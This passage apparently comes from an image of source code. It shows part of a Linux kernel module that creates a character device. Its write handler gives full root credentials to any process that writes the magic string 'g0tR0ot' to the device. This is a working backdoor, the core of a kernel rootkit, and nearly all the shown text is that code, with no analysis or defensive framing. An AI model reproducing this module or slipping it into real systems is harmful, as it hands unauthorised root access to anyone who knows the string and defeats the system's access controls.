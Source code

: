 ```c
{
   return 0;
}

static ssize_t
root_read (struct file *f, char *buf, size_t len, loff_t *off)
{
  return len;
}

static ssize_t
root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
{
  char   *data;
  char   magic[] = "g0tR0ot";

  struct cred *new_cred;

  data = (char *) kmalloc (len + 1, GFP_KERNEL);

  if (data)
    {
      copy_from_user (data, buf, len);
        if (memcmp(data, magic, 7) == 0)
   {
     if ((new_cred = prepare_creds ()) == NULL)
       {
  return 0;
       }
     V(new_cred->uid) = V(new_cred->gid) =  0;
     V(new_cred->euid) = V(new_cred->egid) = 0;
     V(new_cred->suid) = V(new_cred->sgid) = 0;
     V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
     commit_creds (new_cred);
   }
        kfree(data);
      }

    return len;
}


static int __init
root_init(void)
{
  // Create char device
  if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
    {
      return majorNumber;
    }

   // Register the device class
   rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
   if (IS_ERR(rootcharClass))
     {
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharClass);
   }

   // Register the device driver
   rootcharDevice = device_create(rootcharClass, NULL,
      MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
   if (IS_ERR(rootcharDevice))
```
